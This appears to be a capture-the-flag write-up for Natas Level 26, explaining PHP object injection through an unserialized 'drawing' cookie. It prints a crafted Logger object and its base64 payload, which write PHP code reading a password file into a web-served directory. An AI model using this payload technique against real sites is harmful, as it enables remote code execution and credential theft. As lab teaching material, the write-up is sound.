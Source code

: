# Natas
> Level : Natas Level 26<br/>
> Solved : 3rd August 2021<br/>
> Remarks : PHP Deserialization<br/>
<br/>

## Quest
We are presented with a simple Drawing Application

![](./images/Level26.png)

<br/>
Backend Code 
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
 
function showImage($filename){
    if(file_exists($filename))
        echo "<img src=\"$filename\">";
}

function drawImage($filename){
    $img=imagecreatetruecolor(400,300);
    drawFromUserdata($img);
    imagepng($img,$filename);     
    imagedestroy($img);
}

function drawFromUserdata($img){
    if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $color=imagecolorallocate($img,0xff,0x12,0x1c);
        imageline($img,$_GET["x1"], $_GET["y1"], 
                        $_GET["x2"], $_GET["y2"], $color);
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        if($drawing)
            foreach($drawing as $object)
                if( array_key_exists("x1", $object) && 
                    array_key_exists("y1", $object) &&
                    array_key_exists("x2", $object) && 
                    array_key_exists("y2", $object)){
                
                    $color=imagecolorallocate($img,0xff,0x12,0x1c);
                    imageline($img,$object["x1"],$object["y1"],
                            $object["x2"] ,$object["y2"] ,$color);
        
                }
    }    
}
    
function storeData(){
    $new_object=array();

    if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $new_object["x1"]=$_GET["x1"];
        $new_object["y1"]=$_GET["y1"];
        $new_object["x2"]=$_GET["x2"];
        $new_object["y2"]=$_GET["y2"];
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    }
    else{
        // create new array
        $drawing=array();
    }
    
    $drawing[]=$new_object;
    setcookie("drawing",base64_encode(serialize($drawing)));
}
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
?>
```
<br/>

## Solution

Lot of code to go through and most of it is concerned with drawing the image according to provided coordinates.

If we leave out function declarations, the PHP that gets executed is at the bottom.

The application draws lines either by coordinates provided or by deserializing the `drawing` cookie.

One things that strikes out in the code is `unserialize` and `serialize` functions. This calls for checking if Serialization Bugs are present.

What is Serialization?<br/>
>Serialization is when an object in a programming language is converted into a format that can be stored or transferred. Whereas deserialization is the opposite,  it’s when the serialized object is read from a file or the network and converted back into an object.


Lets deserialize the cookie:
```php
<?php

$drawing = unserialize(base64_decode("YToyOntpOjA7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO319"));
print_r($drawing);
```

Output
```
$ php drawing.php
Array
(
    [0] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

    [1] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

)
```

After deserializing the `drawing` cookie, we get an array of coordinates used to create the lines.

In case of serialization bugs, we take advantage of the constructor and destructor function that runs when an object is created or destroyed.

Lets look at the `Logger` class, both constructor and destructor .i.e. `__construct` and `__destruct` function write to a file . They write the contents of variable `initMsg` and `exitMsg` to the file. Lets create an object 

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="Serialization Buggs!!!\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/log.txt";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
```

Output
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbG9nLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIzOiJTZXJpYWxpemF0aW9uIEJ1Z2dzISEhCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
```
<br/>
Observations:
  - We get the contents of the file storing password for next Level <br/>
  - we can write to `img` directory, so we store log file there. <br/>
 
We send a Logger object into a function that’s expecting arrays with coordinates, so this will give an error. But our exploit works because the objected is loaded into the `$drawing` variable, so when its life ends, the destructor will be called in turn writing our exploit to file and that's all we need.

Below we send our serialized object as cookie. (appended `%3D` for `=` )

![](./images/Level26_solution.png)

<br/>
Now, lets access the file that we wrote

![](./images/Level26.1_solution.png)

<br/>
We can see that our file gets written with our code but doesn't execute, let change `.txt` to `.php` in our serialized object and recreate it and that will execute to present the password for next level.

![](./images/Level26.2_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - Whenever we see `unserialize` and `serialize` functions in code, ALWAYS test it.<br/>
  - Test chunks of code locally, gr8 for understanding and exploiting.<br/>

<br/>
That's Level 26 

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
